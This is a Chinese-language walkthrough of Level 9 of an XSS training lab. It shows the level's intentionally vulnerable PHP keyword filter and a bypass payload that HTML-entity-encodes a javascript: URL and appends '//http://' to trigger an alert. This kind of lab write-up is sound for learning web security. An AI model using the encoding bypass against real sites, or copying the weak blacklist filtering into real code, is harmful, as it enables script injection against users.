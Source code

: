 ![](https://gitee.com/YatJay/image/raw/master/img/202203061021933.png)

### Level-9

查看后端PHP代码

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```

提交的参数会被拼接到名为友情链接的超链接当中去，但是除了检查上述关键字之外，还会判断提交参数中是否有`http://`，若没有则无法成功拼接

#### 构造XSS语句

绕过思路

- 编码绕过关键字过滤
- 添加`//http://`，满足提交参数包含`http://`，js语句执行时`//`后的语句注释掉，以避免影响js语句执行

则XSS代码如下，即在上一关的`javascript:alert(1);`编码之后添加`//http://`

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;//http://
```

提交后添加友情链接，成功触发XSS语句

![](https://gitee.com/YatJay/image/raw/master/img/202203061029500.png)
